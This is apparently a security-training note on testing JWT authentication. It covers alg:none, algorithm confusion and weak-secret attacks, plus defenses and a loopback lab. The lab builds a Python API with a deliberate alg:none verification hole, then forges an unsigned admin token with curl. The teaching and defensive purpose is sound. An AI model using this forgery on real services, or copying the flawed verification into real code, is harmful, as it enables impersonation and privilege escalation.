

# 🎟️ JWT Security Testing

> [!warning] Authorized simulation only
> JWT flaws can forge any identity. Prove them with synthetic tokens and benign claims, never by impersonating a real user. Test only in-scope applications.

## Parent Learning Order
Web Authentication Testing -> Broken Access Control -> JWT Security Testing -> Federated Identity & SSO -> MFA, Recovery & Session Bypass Testing

## Start at Zero: A Token You Can Read, and Must Not Be Able to Forge

A **JSON Web Token (JWT)** is a compact, self-contained token that carries claims about a user (their ID, role, expiry) in a format the server can verify without a database lookup — which is why it is ubiquitous in modern APIs and SSO. A JWT has three parts, separated by dots: `header.payload.signature`. The header and payload are **base64-encoded JSON — not encrypted**, so anyone can read them. The signature is what makes the token trustworthy: the server signs the header+payload with a key, and verifies that signature on every request. If the signature verifies, the claims are trusted.

The entire security rests on the signature being **correctly verified**. Almost every JWT vulnerability is a way to make the server accept a token whose claims the attacker chose — by defeating, skipping, or weakening signature verification.

> [!tip] The analogy, and where it breaks
> A JWT is like a tamper-evident sealed envelope: anyone can read the letter through the window (payload is not encrypted), but the wax seal (signature) proves it came from the sender unaltered. The analogy breaks because a lazy recipient can be tricked into ignoring the seal entirely — accepting an envelope sealed with *no wax* or with the attacker's *own seal* — which no physical recipient would do, yet JWT libraries have done exactly this.

**Prerequisites:** base64 encoding, digital signatures (symmetric HMAC vs. asymmetric RSA), and the authentication leaf.

## The Classic JWT Attacks

All exploit signature verification failures:

| Attack | The failure |
| --- | --- |
| **`alg: none`** | Server accepts a token declaring no signature algorithm — no signature needed |
| **Algorithm confusion** | Server uses an RSA *public* key as an HMAC *secret* — attacker signs with the public key |
| **Weak HMAC secret** | The signing secret is guessable/crackable — attacker signs their own tokens |
| **No signature verification** | Server decodes but never verifies — any signature (or none) accepted |
| **Claim tampering + weak check** | Change `role: user` → `role: admin` and re-sign with a cracked/known key |

The infamous **`alg: none`** attack: the JWT header specifies the algorithm, and some libraries honored `alg: none` — meaning "unsigned." An attacker changes the payload (e.g. `admin: true`), sets `alg: none`, removes the signature, and a vulnerable server accepts it because it "verified" a token that declared it needed no verification.

**Algorithm confusion** is subtler: an app expects RSA (asymmetric — verify with a *public* key, sign with a *private* key). If the attacker changes `alg` to HMAC (symmetric — same key signs and verifies) and signs with the *public* RSA key (which is, by definition, public), a naive library uses that public key as the HMAC secret and the signature verifies. The attacker signed a token using a key everyone knows.

## Reading and Tampering a JWT

Because the payload is just base64 JSON, decoding it is trivial — and that's the point of testing: can you change a claim and get it accepted?

```bash
# decode a JWT payload (no key needed — it's not encrypted)
echo "eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWxpY2UiLCJyb2xlIjoidXNlciJ9.abc" | \
  cut -d. -f2 | base64 -d 2>/dev/null
```

```text
{"user":"alice","role":"user"}
```

The payload reads `role: user` — visible to anyone. The test is whether changing it to `role: admin` (and defeating the signature) produces a token the server accepts. If the server checks the signature properly with a strong secret, you cannot; if it accepts `alg: none`, uses a weak secret, or is confused about the algorithm, you can forge `admin`.



## Failure Modes and Interpretation

- **Impersonating real users.** Forging a token for a real admin is over the line; prove with a synthetic identity and a benign claim.
- **`alg: none` may be patched.** Modern libraries reject it, so a failed attempt may mean a hardened library. Try algorithm confusion and secret-cracking before concluding safe.
- **Secret-cracking feasibility.** A weak HMAC secret is crackable offline (like a password); a strong random secret is not. Report the *unsafe verification* even if you can't crack the specific secret — a weak secret is the flaw.
- **Reading ≠ breaking.** Decoding a JWT proves nothing about its security — it's *supposed* to be readable. The finding is *forging* an accepted token, not reading one.
- **Sensitive data in the payload.** Because the payload is not encrypted, secrets placed in it are exposed — a JWT should never carry sensitive data in its claims.

## Security Implications — Detection & Defense

- **Verify the signature with a strong key, and pin the algorithm.** The definitive fixes: reject `alg: none`, do not accept an algorithm different from what the app expects (defeating confusion), and use a long random HMAC secret or proper RSA keys.
- **Never trust an unverified token** — decode *and verify* before honoring any claim; a library that decodes without verifying is the vulnerability.
- **Keep secrets strong and rotated** — a weak or leaked signing secret lets an attacker mint valid tokens indefinitely; rotation limits the window.
- **Do not put sensitive data in the payload** (it's readable), and set short expiry so a stolen token's window is small.
- **Detection**: tokens with `alg: none`, unexpected algorithms, or claims inconsistent with issuance are the signals — but the durable defense is correct verification, since a properly-forged token that the server accepts looks legitimate.

## Authorized Lab: Forge an `alg:none` Token

> [!info] Runs on one Linux machine — builds an API that trusts a JWT without proper verification, then forges admin
> Loopback, synthetic identity. Step 5 removes it.

### Step 1 — Build an API that accepts `alg:none` (the flaw)

```bash
cat > /tmp/jwt.py << 'EOF'
import http.server, json, base64
def b64d(s): return base64.urlsafe_b64decode(s + "="*(-len(s)%4))
class H(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        tok=self.headers.get("Authorization","").replace("Bearer ","")
        try:
            h,p,sig = tok.split(".")
            header=json.loads(b64d(h)); payload=json.loads(b64d(p))
        except: self.send_response(401); self.end_headers(); return
        # BUG: honors alg:none (accepts unsigned tokens)
        if header.get("alg")=="none" or sig=="":
            verified=True
        else:
            verified=(sig=="validsig")   # pretend real verification
        if not verified: self.send_response(401); self.end_headers(); return
        self.send_response(200); self.end_headers()
        self.wfile.write(json.dumps({"role":payload.get("role"),"user":payload.get("user")}).encode())
    def log_message(self,*a): pass
http.server.HTTPServer(("127.0.0.1",8117),H).serve_forever()
EOF
python3 /tmp/jwt.py &>/dev/null &
sleep 1; echo "JWT API up on 127.0.0.1:8117"
```

```text
JWT API up on 127.0.0.1:8117
```

### Step 2 — A normal user token (baseline)

```bash
b64() { python3 -c "import base64,sys;print(base64.urlsafe_b64encode(sys.argv[1].encode()).decode().rstrip('='))" "$1"; }
usertok="$(b64 '{"alg":"HS256"}').$(b64 '{"user":"alice","role":"user"}').validsig"
curl -s -H "Authorization: Bearer $usertok" http://127.0.0.1:8117/me
```

```text
{"role": "user", "user": "alice"}
```

Alice's properly-signed token identifies her as a regular user.

### Step 3 — Forge an admin token with `alg:none` (the finding)

```bash
# change role to admin, set alg:none, drop the signature
forged="$(b64 '{"alg":"none"}').$(b64 '{"user":"alice","role":"admin"}')."
curl -s -H "Authorization: Bearer $forged" http://127.0.0.1:8117/me
```

```text
{"role": "admin", "user": "alice"}
```

The forged token — with `alg:none` and **no signature** — was accepted, and the server now sees alice as `admin`. No key was needed; the app "verified" a token that declared it needed no verification. Privilege escalation via JWT, proven with a synthetic identity.

### Step 4 — State the fix

```bash
echo "Fix: reject alg:none; pin the expected algorithm; verify the signature with a strong secret BEFORE trusting claims."
echo "The token payload is readable by design — security is entirely in correct signature verification."
```

```text
Fix: reject alg:none; pin the expected algorithm; verify the signature with a strong secret BEFORE trusting claims.
The token payload is readable by design — security is entirely in correct signature verification.
```

### Step 5 — Cleanup

```bash
kill %1 2>/dev/null; rm -f /tmp/jwt.py; wait 2>/dev/null
curl -s -o /dev/null -w "api gone: %{http_code}\n" --max-time 2 http://127.0.0.1:8117/me 2>&1 | grep -o 'gone.*' || echo "api gone: connection refused"
```

```text
api gone: connection refused
```

**What you should now be able to do:** read a JWT's unencrypted payload, explain why security rests on signature verification, forge an `alg:none` token to escalate privilege, and name the algorithm-confusion and weak-secret variants plus their fixes.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain the three JWT parts, why the payload is readable, and why the signature is what makes the token trustworthy.
- **Operator:** Decode and tamper a JWT payload, forge an `alg:none` token to escalate role, and recognize the algorithm-confusion and weak-secret attacks.
- **Root:** Explain why pinning the algorithm and verifying with a strong key are the fixes, why algorithm confusion turns a public key into a signing secret, and why sensitive data must never go in a JWT payload.

---
> 🔼 Up: [[Web Identity & Access Control]]
